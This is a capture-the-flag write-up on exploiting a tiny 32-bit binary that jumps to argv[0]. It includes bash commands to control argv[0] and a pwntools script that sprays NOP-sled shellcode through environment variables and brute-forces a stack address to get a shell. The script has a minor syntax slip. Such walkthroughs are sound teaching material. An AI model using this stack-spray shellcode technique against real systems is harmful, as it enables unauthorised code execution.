





First thing like in every other pwn, we will start by logging in to the ssh server and exploring what we have to deal with:

it seems like we have two files, flag which we cant really open with our current permissions, and tiny_easy which seems to be an elf 32 bit with a corrupted section header.

Cool!
Lets open the binary file in ida to see whats going on.


The whole binary have only four instructions without even a stack frame.
if we need to convert it to c/psuedo code it will look something like that:
```c
int main(int argc, char* argv) {
	int eax = argc;
	char* edx = argv;
	(*edx)();
}
```

So basicly we are gonna take argv[0] and jump into it.
and whats argv[0]? Just the path to the binary.
We can see this if we run the elf code and see where it fails.

We got seg fault with invalid addres **0x6d6f682f** or in ascii representations, "/hom" which is the first four letters of our binary path!.
so if we can control the name of our binary we have our first primitive which is decide where we are jumping to.

## Finding our first primitive
In order to change argv[0], You can juse use pwntools, which get binary name, and argv so u can control argv[0], or use a builtin linux command called exec:
```bash
exec -a <binary name> ./tiny_easy
```
Since we are using bash we can do something like:
```bash
exec -a `python -c "print(b'\xde\xad\xbe\xef')" ./tiny_easy`
```
And now we can jump to whatever i want!

# Where should we jump
So the hard part in this challenge is to decide where should we jump.
We have two problems:
- libc is not compiled into the binary, and the binary does not contains any gadget we can jump into
- The binary is protected by ASLR so we dont really know what whill be the address when running our exploit

We can run checksec on the binary and find out we doesnt have to deal with NX protection.
So about the first problem, we can try to jump to a shellcode that runs
```c
system("/bin/sh");
```
How can we insert our shellcode?
We can use environment variables since they stored on the stack.
And about the ASLR, we can just spray our shellcode in the stack and try to jump into a random address, we will probably jump on our shellcode after few tries.
To increase our chances to jump on our shellcode, we can put a lot of **nop** instructions, and put the shellcode at the end of the nop's
I writed a simple bash script that puts **'hello' * 1024**
in environment variables and checked with gdb in which address range 'hello' stored

Now we can try to put something like shellcode and jump to it.
I coded simple python code to exploit this binary:
```python
from pwn import *

context.arch = 'i386'
shellcode = shellcraft.i386.linux.sh()
shellcode = asm(shellcode)


env = {str(i): b'\x90'*1024+shellcode for i in range(100)}

addr = b"\x90\xd5\x9c\xff"

while True:
    try:
        p = process([addr], executable="./tiny_easy" env=env)
        p.wait_for_close()
    except KeyboardInterrupt:
        p.interactive()
```
And i got a shell!
I ran the exact same exploit on the ssh server and:

